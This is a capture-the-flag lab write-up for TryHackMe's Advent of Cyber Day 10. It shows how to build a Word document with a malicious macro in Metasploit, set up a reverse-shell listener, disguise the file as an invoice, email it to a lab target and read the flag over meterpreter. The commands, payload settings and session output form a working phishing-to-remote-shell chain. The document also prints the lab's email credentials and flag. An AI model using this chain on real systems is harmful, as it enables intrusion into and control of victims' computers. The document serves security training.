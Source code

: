 ```yaml
---
title: Day 10 He had a brain full of macros, and had shells in his soul.
date: 2024-12-14 00:00:00
categories: Cybersecurity
tags:
  - Advent_of_cyber
  - THM
  - Writeups
by: Mahmud
---
```

### Objective :
##### to now 
-  Phishing Attacks 
   its part of social engineer it aim's on send a bait to large number of people and make the to open or download malicious link or file
-  Macros
   is set of instructor or program that MS Office user can do to automate some tasks and its so powerful
- Metasploite
  The world's most used penetration testing _framework_. Knowledge is power,

****
### Attack Plane
1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker’s system
3. Email the document and wait for the target user to open it
4. The target user opens the document and connects to the attacker’s system
5. Control the target user’s system

****

1. first start machine and connect Kali to the network using OpenVPN and your credential config file 
   
2. in terminal open metasploite by type `msfconsle`
3. now we will create malicious doc in `msf6>` start type
- `set payload windows/meterpreter/reverse_tcp` 
     specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
- `use exploit/multi/fileformat/office_word_macro` 
  specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST CONNECTION_IP` 
  specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox (Kali)
- `set LPORT 8888` 
  specifies the port number you are going to listen on for incoming connections on the AttackBox (Kali)
- `show options` 
  shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example

```terminal 
msf6 exploit(multi/fileformat/office_word_macro) > show options 

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting     Required  Description
   ----            ---------------     --------  -----------
   CUSTOMTEMPLATE  /usr/share/metaspl  yes       A docx file that will be used
                   oit-framework/data            as a template to build the exp
                   /exploits/office_w            loit
                   ord_macro/template
                   .docx
   FILENAME        msf.docm            yes       The Office document macro file
                                                  (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thre
                                        ad, process, none)
   LHOST     10.9.4.230       yes       The listen address (an interface may be
                                         specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows



View the full module info with the info, or info -d command.
  ```

- `exploit` 
  generates a macro and embeds it in a document
- `exit` 
  to quit and return to the terminal
  
1. the generated file `msf.docm` stored at `/home/kali/.msf4/local/msf.docm`
2. so now when victim open the file he will see a regular word file the he can't see the code easily 
3. this is the macro 


![](./assets/img/Pasted image 20241218235024.png){: .shadow }


- `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
- `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
- `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

#### Listening for Incoming Connections
1. use `msfconsle` again
2.  now follow the steps :
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` 
- `set LHOST CONNECTION_IP` Attack box or kali IP
- `set LPORT 8888` Attack box or kali IP
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell
1.  need to send the document to `marta@socmas.thm` by go to `http://MachineIP`then   and login via given credential  
   - Email: `info@socnas.thm`
   - Password: `MerryPhishMas!
2. for best practice change document name to something relevant like such as `invoice.docm` or `receipt.docm`  

```shell-session
──(kali㉿kali)-[~/.msf4/local]
└─$ mv msf.docm /home/kali/Desktop           
┌──(kali㉿kali)-[~/Desktop]
└─$ mv msf.docm invoice.docm
```   

1. after send the document you will see in `msfconsle` 

```shell-session
[*] Started reverse TCP handler on 10.9.4.230:8888 
[*] Sending stage (176198 bytes) to 10.10.242.146
[*] Meterpreter session 1 opened (10.9.4.230:8888 -> 10.10.242.146:50185) at 2024-12-19 00:17:45 +0200
```

1. you can see that the `msf6` turn into `meterpreter >` that mean the connection established and we are in the victim PC 
2. to find flag navigate to Desktop by

```shell-session
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
Listing: c:\users\Administrator\Desktop
=======================================

Mode            Size  Type  Last modified             Name
----            ----  ----  -------------             ----
100666/rw-rw-r  527   fil   2016-06-21 17:36:17 +020  EC2 Feedback.website
w-                          0
100666/rw-rw-r  554   fil   2016-06-21 17:36:23 +020  EC2 Microsoft Windows Gui
w-                          0                         de.website
100666/rw-rw-r  282   fil   2021-03-17 17:13:27 +020  desktop.ini
w-                          0
100666/rw-rw-r  23    fil   2024-11-12 05:42:45 +020  flag.txt
w-                          0

meterpreter > cat flag.txt
THM{PHISHING_CHRISTMAS}
meterpreter >
```

1. So the flag is `THM{PHISHING_CHRISTMAS}`
